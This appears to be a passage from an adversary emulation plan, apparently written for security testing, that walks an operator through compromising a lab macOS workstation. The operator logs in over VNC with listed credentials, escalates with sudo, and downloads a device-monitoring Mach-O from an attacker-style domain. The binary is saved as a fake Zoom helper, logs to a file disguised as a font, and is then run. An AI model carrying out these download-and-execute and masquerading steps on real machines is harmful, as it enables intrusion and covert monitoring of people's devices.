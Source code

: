   * :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate
  a VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
  `encryptpotter.net\ranrok`.

    | VNC server | Password |
    | -------- | -------- |
    | 10.55.4.50::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | ranrok | Ladylike-Laugh |

* Open a Terminal and elevate to sudo, providing the following password when
prompted:

    ```bash
    sudo su
    ```

    | Password |
    | -------- |
    | Ladylike-Laugh |

* Execute curl to download the device monitor mach-o (`us.zoom.ZoomHelperTool-monitor`):

    ```zsh
    curl --output "/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-monitor" http://b0ring-t3min4l.kr/files/macho_monitorDevices
    ```

  * The above resolves to:
    * `us.zoom.ZoomHelperTool-monitor` - a mach-o that installs a monitor on the
    `/Volumes` folder. When devices are mounted, the program will print out the
    event and append it to the `/Library/Fonts/AppleSDGothicNeo.ttc.1` file.

* Check using Finder to see if the files were downloaded successfully

* Execute the device monitor:

    ```bash
    chmod +x /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-monitor
    /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-monitor
    ```

* End of Emulation
